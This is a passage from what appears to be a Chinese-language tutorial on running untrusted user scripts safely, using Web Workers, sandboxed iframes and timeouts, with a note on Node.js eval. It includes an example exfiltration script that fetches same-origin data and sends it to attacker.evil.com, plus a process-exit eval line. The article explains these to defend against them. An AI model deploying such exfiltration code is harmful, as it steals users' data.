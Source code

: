 上面的示例，我们为了要运行用户脚本 `1 + 2`，把它传给了 Worker，然后在 Worker 中使用 eval 方法求值，所以现在的安全问题已经转嫁给 Worker 了。在 Worker 中，可以使用`fetch`、`XMLHttpRequest`等对象，这会有潜在的安全问题，比如攻击者在用户脚本中请求当前域的数据，然后再发送给攻击者的服务器：

```js
// 将上面的用户脚本 `1 + 2` 换成下面的脚本
fetch('secure.json')
.then(function(response) {
  return response.json();
})
.then(function(json) {
  importScripts('https://attacker.evil.com/' + JSON.stringify(json));
});
```

因此，需要将 Worker 放到 iframe 中，并将 iframe 的 `sandbox` 属性设置为 `allow-scripts`，也就是只允许执行脚本，本域的资源也不能加载：

```html
<!-- 将上面的 worker 代码放在 iframe.html 页面中 -->
<iframe src="iframe.html" sandbox="allow-scripts"></iframe>
```

此外，还要防止用户代码中出现计算量过大或者死循环等问题，它们会导致用户的浏览器被卡死。Worker 本身并没有`超时`这样的参数，不过它有一个 `terminate` 方法可以用来结束它的运行，所以可以使用一个计时器，在指定的时间内如果主线程没有收到数据，就认为可以结束 Worker 的运行了，至于没有收到数据的原因，可能是用户脚本中出现了死循环、语法错误等原因：

```js
const blob = new Blob([
  document.querySelector('#worker').textContent
]);

const worker = new Worker(window.URL.createObjectURL(blob));
let receivedFromWorker = false;
worker.onmessage = function(e) {
  receivedFromWorker = true;
  console.log(`${e.data}`);
};
worker.postMessage(`
  while(true) {
    console.log(1);
  }
`);
setTimeout(function () {
  if (!receivedFromWorker) {
    console.log('运行时间过长，结束 Worker');
    worker.terminate();
  }
}, 100);
```

Worker 是浏览器原生支持的，不需要引入额外的文件，是优先推荐使用的方法。

## Node.js

在 Node.js 中，`eval` 和 `new Function` 这两个方法也是在当前的 Context 中运行，所以也不能使用这两个方法：

```js
eval('process.exit(0)');
```
